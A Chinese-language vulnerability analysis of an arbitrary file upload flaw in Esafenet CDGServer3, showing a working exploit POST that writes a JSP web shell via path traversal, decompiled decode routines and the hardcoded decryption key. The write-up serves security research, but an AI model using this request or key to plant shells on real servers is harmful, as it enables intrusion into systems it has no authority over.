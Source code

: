 亿赛通 /UploadFileFromClientServiceForClient 任意文件上传漏洞 浅析

**本文主要对QueryString的加解密进行分析，请求传参以及参数处理的问题别人有发过，我就略过了**

EXP情报来自：https://github.com/di0xide-U/YSTupload/blob/main/exp.md

感谢各位大佬的漏洞情报，我也是站在巨人的肩膀上。

根据EXP内容，shell访问地址：https://x.x.x.x/tttT.jsp

    POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
    Host: xxx:8443
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: */*
    Content-Length: 1

    shell内容

在这个漏洞中，POST的URL参数
「AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM」

很明显是被亿赛通服务端进行decode后才是真正的恶意代码，而这一串恶意代码也决定了文件的名字以及上传路径，即「/webapps/ROOT/tttT.jsp」，关键在于是亿赛通的decode方法，以及我们如何将恶意代码encode成服务端可识别的字符串。

有幸拿到亿赛通的服务端文件，亿赛通的服务端主要是由JSP和Spring框架组成，核心jar包位于\webapps\CDGServer3\WEB-INF\lib\jhiberest.jar，通过web.xml文件，可以看到漏洞接口所对应的servlet-class路径。


    <servlet>
		<servlet-name>UploadFileFromClientServiceForClient</servlet-name>
		<servlet-class>com.esafenet.servlet.fileManagement.UploadFileFromClientServiceForClient</servlet-class>
    </servlet>

通过反编译jar包，可以看到亿赛通的decode方法，如下图所示，收到Post请求时，对QueryString进行CDGUtil.decode()方法

```java
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    req.setCharacterEncoding("GBK");
    String value_code = req.getQueryString();
    String value_decode = "";
    String[] vds = null;
    value_code = value_code.substring(value_code.indexOf("=") + 1);
    try {
    value_decode = CDGUtil.decode(value_code);
    } catch (Exception e) {
    e.printStackTrace();
} 
```

CDGUtil.decode: 这里面又经过了两个解密函数getTransferUnEncrptString和CodeDecoder.Decode，其中参数key2为密钥，然而密钥是写死在源码里的
```java
public static String decode(String info) throws Exception {
    info = CodeDecoder.getTransferUnEncrptString(info);
    byte[] abyte2 = info.getBytes("ISO8859_1");
    int nLength = Array.getLength(abyte2);
    CodeDecoder.Decode(abyte2, nLength, key2);
    info = new String(abyte2);
    return info;
}
```

getTransferUnEncrptString: 应该是亿赛通自己写的算法，我算法太菜了，脑子过不了，看看就行了
```java
public static String getTransferUnEncrptString(String s)
        throws Exception {
    byte[] abyte0 = s.getBytes("ISO8859_1");
    int nlength = Array.getLength(abyte0);
    byte[] result = new byte[nlength / 2];
    for (int i = 0; i < nlength; i += 2) {
        byte byte_r_lower = abyte0[i];
        byte byte_l_lower = abyte0[i + 1];
        byte_r_lower &= remain_low;
        byte_r_lower <<= 4;
        byte_r_lower &= remain_up;
        byte_l_lower &= remain_low;
        byte_l_lower |= byte_r_lower;
        byte b_singleChar_upper = byte_l_lower;
        result[i / 2] = b_singleChar_upper;
    }

    String unencrptString = new String(result, "ISO8859_1");
    return unencrptString;
}
```

CodeDecoder.Decode: 这里使用了Rijndael_Algorithm算法，好像是类似AES的，密钥**abyte0**是写死在源码里的，可以直接看到
```java
public static void Decode(byte[] abyte1, int nLength, byte[] abyte0)
        throws Exception {
    int groupsLen = 16 * (nLength / 16);
    Object obj = Rijndael_Algorithm.makeKey(abyte0);
    Decrypt(abyte1, abyte1, groupsLen, obj);
    if (groupsLen != nLength) {
        int nLeft = nLength - groupsLen;
        for (int i = 0; i < nLeft; i++)
            abyte1[groupsLen + i] ^= i;

    }
}
```

```java
private static byte key2[] = {
        -21, -112, 90, -68, 5, 44, 85, -86, -21, -112,
        90, -68, 5, 44, 85, -86
}
```

Decrypt:
```java
private static void Decrypt(byte[] in, byte[] result, int n, Object obj)
        throws Exception {
    byte[] abyte = new byte[16];
    byte[] abyte0 = new byte[16];
    if (0 == n)
        return;
    for (int i = 0; i < n / 16; i++) {
        System.arraycopy(in, i * 16, abyte, 0, 16);
        abyte0 = Rijndael_Algorithm.blockDecrypt(abyte, 0, obj);
        System.arraycopy(abyte0, 0, result, i * 16, 16);
    }

}
```

至此，已经完成了字符串的解密，解密大佬的POC之后得到的结果如下:

input: AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM

output:
fileName=../../../Program Files (x86)/ESAFENET/CDocGuard Server/tomcat64/webapps/ROOT/tttT.jsp

至于如何Encode，各位大佬各显神通，逆向算法可以得出，这里就不多说了。

至于怎么上传，filename参数怎么传过去的，也不放出所有源码了，只看关键代码
```java
ServletInputStream servletInputStream = req.getInputStream();
byte[] buffer = new byte[1024];
File file = new File(Constant.instance.UPLOAD_PATH + fileName);
file.getParentFile().mkdirs();
file.createNewFile();
OutputStream os = new FileOutputStream(file);
int count = 0;
int value = 0;
while ((value = servletInputStream.read(buffer)) != -1) {
    os.write(buffer, 0, value);
    if (++count % 10 == 0)
    os.flush(); 
} 
os.flush();
if (os != null)
    os.close(); 
if (servletInputStream != null)
    servletInputStream.close(); 
```

**Constant.instance.UPLOAD_PATH + fileName** 这里没有处理好，可以将文件上传到服务器的任意位置